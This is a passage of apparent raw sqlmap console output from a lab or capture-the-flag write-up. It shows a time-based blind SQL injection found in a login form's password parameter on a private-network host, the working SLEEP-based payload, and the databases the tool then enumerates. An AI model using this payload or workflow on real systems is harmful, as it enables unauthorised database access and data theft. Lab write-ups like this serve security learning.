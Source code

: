 columns'
[13:39:31] [INFO] automatically extending ranges for UNION
query injection technique tests as there is at least one other
(potential) technique found
sqlmap got a 302 redirect to
'http://192.168.30.140:1337/978345210/profile.php'. Do you want
to follow? [Y/n] n
[13:39:35] [INFO] target URL appears to be UNION injectable
with 2 columns
injection not exploitable with NULL values. Do you want to try
with a random integer value for option '--union-char'? [Y/n] Y
[13:39:43] [WARNING] if UNION based SQL injection is not
detected, please consider forcing the back-end DBMS (e.g.
'--dbms=mysql') 
[13:39:43] [INFO] checking if the injection point on POST
parameter 'password' is a false positive

POST parameter 'password' is vulnerable. Do you want to keep
testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total
of 336 HTTP(s) requests:
---
Parameter: password (POST)
    Type: AND/OR time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
            Payload: username=WWXY&password=' AND (SELECT *
            FROM (SELECT(SLEEP(5)))PWKv) AND
            'eVRP'='eVRP&submit= Login 
            ---
            do you want to exploit this SQL injection? [Y/n] Y
            [13:40:23] [INFO] the back-end DBMS is MySQL
            web server operating system: Linux Ubuntu
            web application technology: Apache 2.4.7, PHP 5.5.9
            back-end DBMS: MySQL 5.0.12
            [13:40:23] [INFO] fetching database names
            [13:40:23] [INFO] fetching number of databases
            [13:40:23] [INFO] retrieved: 
            [13:40:23] [WARNING] it is very important not to
            stress the network adapter during usage of
            time-based payloads to prevent potential errors 
            do you want sqlmap to try to optimize value(s) for
            DBMS delay responses (option '--time-sec')? [Y/n] Y
            4
            [13:40:54] [INFO] retrieved: 
            [13:41:04] [INFO] adjusting time delay to 2 seconds
            due to good response times
            information_schema
            [13:43:25] [INFO] retrieved: Webapp
            [13:44:15] [INFO] retrieved: mysql
            [13:44:56] [INFO] retrieved: performance_schema
            available databases [4]:
            [*] information_schema
            [*] mysql
            [*] performance_schema
            [*] Webapp

            [13:47:18] [INFO] you can find results of scanning
            in multiple targets mode inside the CSV file
            '/root/.sqlmap/output/results-11232015_0138pm.csv
{% endhighlight %}
